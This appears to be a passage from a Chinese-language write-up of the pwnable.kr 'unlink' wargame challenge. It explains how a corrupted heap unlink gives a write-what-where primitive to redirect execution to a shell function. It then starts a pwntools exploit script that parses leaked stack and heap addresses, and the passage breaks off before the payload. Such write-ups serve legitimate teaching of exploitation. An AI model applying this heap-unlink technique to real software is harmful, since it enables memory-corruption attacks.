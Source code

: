 所以 `*(stack+0x10) = &shell + 4`


unlink函数的代码

```cpp
void unlink(OBJ* P){
	OBJ* FD;
	OBJ* BK;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

OBJ结构体

```cpp
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

举个例子，如果我们构造的P中的fd=AAAA，bk=BBBB，

那么会发生

```
BK = *(P+4) = BBBB
FD = *(P) = AAAA
*(FD+4) = *(AAAA+4) = BK = BBBB
*(BK) = *(BBBB) = FD = AAAA

也就是
*(AAAA+4) = BBBB
*(BBBB) = AAAA
```

如图方式构造堆

![](pwnable_kr_wp_dcfb421bf5a22357a019f116eb453276.png)

最终会esp->shell。

exp：

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

local = 1

if local:
	cn = process('./unlink')
else:
	s = ssh(host='pwnable.kr',port=2222,user='unlink',password='guest')
	cn = s.process('./unlink')

shell = 0x080484EB

cn.recvuntil('here is stack address leak: 0x')
stack_addr = int(cn.recv(8),16)
cn.recvuntil('here is heap address leak: 0x')
heap_addr = int(cn.recv(8),16)

cn.recv()
```